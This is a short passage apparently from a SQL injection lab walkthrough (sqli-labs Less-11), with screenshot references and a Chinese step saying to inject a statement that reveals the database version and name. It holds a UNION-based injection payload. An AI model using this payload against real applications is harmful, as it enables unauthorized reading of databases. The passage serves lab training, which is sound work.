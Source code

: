 ![Less-11_4](./img/Less-11_4.PNG)



+ 注入以下语句确定版本和数据库

~~~ shell
1' union select version(),database() #
~~~

![Less-11_5](./img/Less-11_5.PNG)

